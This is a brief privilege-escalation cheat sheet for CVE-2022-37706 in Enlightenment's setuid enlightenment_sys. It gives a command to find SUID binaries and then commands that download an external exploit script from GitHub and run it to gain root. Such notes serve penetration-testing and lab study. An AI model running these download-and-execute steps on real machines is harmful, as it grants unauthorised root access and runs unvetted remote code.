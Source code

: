 # Overview
>[Enlightenment](https://www.enlightenment.org/) is a Window Manager, Compositor, and Minimal Desktop for Linux (the primary platform), BSD, and any other compatible UNIX system. Enlightenment is classed as a “desktop shell” as it provides everything you need to operate your desktop or laptop, but it is not a full application suite. This covers functionality including launching applications, managing their windows, and performing system tasks like suspending, rebooting, managing files, and so on.
>enlightenment_sys in Enlightenment before 0.25.4 allows local users to gain privileges because it is setuid root, and the system library function mishandles pathnames that begin with a /dev/.. substring.

# Exploitation
## Detect
- Check if enlightenment is SUID root (or other) : 
```bash
find / -perm -u=s -type f 2>/dev/null | xargs ls -l
```

## Exploit
https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit

```bash
wget https://raw.githubusercontent.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/refs/heads/main/exploit.sh
chmod +x exploit.sh
./exploit.sh
```